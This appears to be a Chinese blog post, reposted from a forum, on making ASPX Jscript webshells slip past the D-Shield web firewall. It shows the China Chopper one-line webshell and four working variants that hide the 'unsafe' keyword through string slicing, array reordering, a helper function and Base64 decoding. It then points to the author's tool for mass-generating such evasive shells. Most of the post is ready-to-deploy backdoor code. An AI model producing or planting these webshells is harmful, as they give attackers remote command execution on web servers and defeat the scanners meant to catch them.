 # 无限免杀D盾脚本之aspx


```
 2019-7-15 自己发在土司的文章
```

##  前言
自己曾经写过一篇文章:利用随机异或无限免杀某盾

php的webshell免杀方法有很多,但是市面上很少有讲aspx免杀的文章.

因为aspx的权限一般较大,对于渗透过程中还是很重要的, 所以就想着写一篇文章来简单的介绍下aspx的免杀
## 0x01 主要方法
```
字符串拼接
函数
数组
Base64编码
```

## 0x02  了解aspx一句话
Aspx的一句话一般是使用Jscript语言实现

看看原本的菜刀aspx一句话
```
<%@ Page Language="Jscript"%> <%eval(Request.Item["pass"],"unsafe");%>
```
其实与php的类似
Eval函数将字符串当做代码执行
不同的是在Jscript中为了安全起见必须使用unsafe参数,才可以使其具有对操作系统操作的功能

Request.Item["pass"] 的pass就是接受的参数 类似于php的$_POST[“pass”]

### Jscript基本用法 
```
Function xxx(){}//声明一个函数
```
### 字符串拼接
```
Var a =’a’+’b’;//a=’ab’;
Var a= ‘\x61’; //a=’a’;
```
### 数组声明
```
Var a=’abc’;
Var b=a(0);//b=’a’;
```
作为免杀来说一般waf杀的都是unsafe这个参数,所以我们的免杀也将从这个参数下手


## 0x02 字符串拼接
经过测试,一般来说把’unsafe’这个字符串无论是十六进制拼接还是直接大小写拼接均不可行
于是想到可以采用substr函数

```
<%@ Page Language="Jscript" Debug=true%>
<%
var a=Request.Form("mr6");
var b='aaaunsaaaafe';
var b=b.substr(3,4)+b.substr(10);
eval(a,b);

%>
```
## 0x03 数组

感觉大多数waf对数组拼接并不感冒,就可以打乱顺序,利用数组进行拼接
```
<%@ Page Language="Jscript" Debug=true%>
<%
var a='efasnu';
var b=Request.Form("mr6");
var c=a(5)+a(4)+a(3)+a(2)+a(1)+a(0);
eval(b,c);
%>
```
## 0x04 函数
因为某盾对字符串拼接杀得比较厉害,放在函数里当做返回值即可
```
<%@ Page Language="Jscript" Debug=true%>
<%
var a=Request.Form("mr6");
function ok()
{
var c="un";
var b="safe";
return c+b;
}
eval(a,ok());

%>
```
## 0x05 BASE64编码
Php中经常使用base64编码来bypass,那么在aspx中如何实现呢

```
var res=System.Text.Encoding.GetEncoding(65001).GetString(System.Convert.FromBase64String(‘eXpkZG1yNg==’);//res=’yzddmr6’;
```
那么我们对于unsafe这个特征就可以使用base64编码来绕过
```
<%@ Page Language="Jscript" Debug=true%>
<%
var a=Request.Form("mr6");
var res=System.Text.Encoding.GetEncoding(65001).GetString(System.Convert.FromBase64String('dW5zYWZl'));
eval(a,res);

%>
```
## 0x06 总结

可能是因为aspx的免杀现在还不是很多,所以waf的查杀并不是很严格,不需要太复杂就可以绕过.
对于以上方法还可以连环套用,以达到混淆的效果

自己写了个脚本,利用以上方法来无限生成免杀aspx的webshell

已经放到了自己的项目webshell_venom中
 
 
项目地址:
https://github.com/yzddmr6/webshell-venom

